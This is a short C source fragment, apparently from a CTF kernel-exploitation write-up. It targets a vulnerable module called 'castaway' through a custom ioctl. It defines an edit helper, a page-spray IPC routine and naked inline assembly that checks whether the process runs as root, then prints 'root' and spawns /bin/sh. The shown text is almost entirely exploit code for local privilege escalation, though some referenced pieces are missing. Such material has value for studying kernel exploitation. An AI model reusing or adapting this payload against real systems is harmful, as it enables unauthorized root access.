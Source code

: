 ```c

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};
char throwaway;
char root[] = "root\n";
char binsh[] = "/bin/sh\x00";
char *args[] = {"/bin/sh", NULL};

void edit(int64_t index, size_t size, void *buf)
{
    struct castaway_request r = {
        .index = index,
        .size = size,
        .buf = buf,
    };

    ioctl(fd, 0xF00DBABE, &r);
}


__attribute__((naked)) void check_and_wait()
{
    asm(
        "lea rax, [rootfd];"
        "mov edi, dword ptr [rax];"
        "lea rsi, [throwaway];"
        "mov rdx, 1;"
        "xor rax, rax;"
        "syscall;"
        "mov rax, 102;"
        "syscall;"
        "cmp rax, 0;"
        "jne finish;"
        "mov rdi, 1;"
        "lea rsi, [root];"
        "mov rdx, 5;"
        "mov rax, 1;"
        "syscall;"
        "lea rdi, [binsh];"
        "lea rsi, [args];"
        "xor rdx, rdx;"
        "mov rax, 59;"
        "syscall;"
        "finish:"
        "lea rdi, [timer];"
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;"
        "ret;");
}

void spraypage_send(enum spraypage_cmd cmd, int idx) {
    struct ipc_req_t req;
    req.cmd = cmd;
    req.idx = idx;
    write(sprayfd_child[1], &req, sizeof(req));
    read(sprayfd_parent[0], &req, sizeof(req));
}
```